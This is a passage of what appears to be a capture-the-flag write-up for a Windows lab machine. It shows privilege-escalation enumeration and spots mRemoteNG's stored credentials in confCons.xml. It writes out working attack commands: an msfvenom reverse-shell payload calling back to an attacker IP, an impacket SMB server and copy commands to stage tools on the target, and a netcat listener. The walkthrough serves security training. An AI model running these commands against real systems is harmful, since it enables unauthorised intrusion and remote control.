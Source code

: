 ![[Bastion-07.png]]

### Privilege Escalation

#### Enumeration

we create a smb server on our kali [[Windows Privilege Escalation]]

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

and create our reverse shell binary for windows.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=1234 -f exe -o reverse.exe
```


On Windows , copy the reverse shell and winPEASany binary.

```cmd
mkdir PrivEsc
copy \\10.10.14.8\kali\reverse.exe C:\PrivEsc\reverse.exe
copy \\10.10.14.8\kali\winPEASany.exe C:\PrivEsc\winPEASany.exe
copy \\10.10.14.8\kali\accesschk.exe C:\PrivEsc\accesschk.exe
```

![[Bastion-08.png]]

setting up a netcat listener on Kali:

```bash
sudo nc -nvlp 1234
```

and we run winPEAS to automatically enumerate:

```cmd
cd C:\PrivEsc\
whoami
.\winPEASany.exe quiet serviceinfo
```

But I didn't find exploitable information. 

Let's do enumeration manually.

```powershell
cd c:\'.\Program Files (x86)\'
ls
```

![[Bastion-09.png]]

The first detail that stands out is a program called mRemoteNG. After doing a little research on the internet, we learn that our mRemoteNG https://mremoteng.org/ program is an advanced remote connection session manager where you can edit your remote desktop and server connections. This application is very useful; It saves your IP address, username and password information, making it easy to connect to your servers. But we also learn that there is vulnerability in application. Users who are logged into the “confCons.xml” file are kept encrypted.
